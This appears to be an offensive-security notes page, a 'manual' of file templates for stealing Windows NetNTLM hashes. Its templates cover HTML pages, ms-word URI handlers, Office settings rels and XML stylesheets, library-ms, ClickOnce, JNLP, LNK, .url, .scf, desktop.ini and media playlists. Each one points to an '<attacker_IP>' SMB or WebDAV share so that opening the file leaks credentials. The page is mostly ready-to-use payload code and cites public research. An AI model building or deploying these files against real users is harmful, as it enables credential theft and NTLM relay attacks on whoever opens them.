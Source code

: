 # Manual

## 01 - Internet Explorer or Microsoft Edge

```html
<!DOCTYPE html>
<html>
	<img src="file://<attacker_IP>/leak/leak.png"/>
</html>
```

Using a URL handle with `ms-word:ofe|u|` scheme can trigger SMB relay.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<attacker_IP>\leak\leak.docx';
	</script>
</html>
```

## 02 - XML

### 2.1 - Microsoft Office subDoc

Extract `.docx` file using `7zip` or `unzip` and modify the contents in `word\_rels\settings.xml.rels`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<attacker_IP>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

### 2.2 - XML Stylesheet

Name it with either `.xml` or `.xsl` extension.

```xml
<?xml version="1.0" encoding="utf-8" ?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\<attacker_IP>\snare\file.xsl"?>
```

A `file://` schema can be exploited when bypassing firewall through WebDAV protocol.

```xml
<?xml version="1.0" encoding="utf-8" ?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" file=:////<attacker_IP>/snare/file.xsl"?>
```

The user can open the document with **Office XML** but to execute it through command line can be weaponized.

```
C:\> MSOXMLED.EXE /verb open "C:\path\to\file.xml"
```

### 2.3 - Library MS

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
		<folderType><§7d49d726-3c21-4f05-99aa-fdc2c9474656§></folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
		<simpleLocation>
			<url>\\<attacker_IP>\<share_name>\\library-ms_1234</url>
		\r\t\t</simpleLocation>
	\r\t</searchConnectorDescription>
	\r\t</searchConnectorDescriptionList>
\r</libraryDescription>
```

### 2.4 - ClickOnce

TODO: check `.manifest` and `.appref-ms` to reproduce it.

Name it with `.application` extension.

```xml
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/snare/Program.exe.manifest" size="32909">
			<assemblyIdentity name="Program.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

### 2.5 - Java Web Start

Name it with `.jnlp` extension.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<<attacker_IP>>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

## 03 - Shortcut LNK

TODO: Show it step by step.

```
$ pylnk3 c \\<attacker_IP>\<share_name>\file.ext implant.lnk
```

## 04 - Internet Shortcut File

SMB link and name it with `.url` extension.

```
[InternetShortcut]
URL=https://website.com
IconIndex=0
IconFile=\\<attacker_IP>\snare\file.ico
```

WebDAV link.

```
[InternetShortcut]
URL=file://<attacker_IP>/@snare
```

## 05 - Shell Command Files

> [!INFO]
> Windows 10 or later no longer supports `.scf`.

Name it with `.scf` extension.

```
[Shell]
Command=2
IconFile=\\<attacker_IP>\snare\file.ico
[Taskbar]
Command=ToggleDesktop
```

## 06 - Desktop.ini

Name it with `.ini` extension.

```
C:\> mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\<attacker_IP>\snare >> desktop.ini
attrib +s +h desktop.ini
```

```
[.ShellClassInfo]
IconResource=\\<attacker_IP>\snare
```

## 07 - Windows Media Player

Name it with `.m3u` extension.

```
#EXTM3U
#EXTINF:1337, Snare
\\<attacker_IP>\file.mp3
```

Name it with `.asx` extension.

```
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<attacker_IP>/snare/file.wma"/>
	</entry>
</asx>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut Link File/Windows/Manual/Unix Shell]]

### Rhino Security Labs

- [Rhino Security Labs: Abusing Microsoft Word Features for Phishing - "subDoc"](https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/)

### Securify

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

### Bohops

- [Bohops: Capturing NetNTLM Hashes with Office [DOT] XML Documents](https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Mubix

- [Malicious.link: SMB/HTTP Auth Capture via SCF File](https://room362.com/posts/2016/smb-http-auth-capture-via-scf/)

### 1337Red

- [1337red: Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

### Pentest Lab

- [Pentestlab Blog: Microsoft Office - NTLM Hashes via Frameset](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)

- [Pentestlab Blog: SMB Share SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)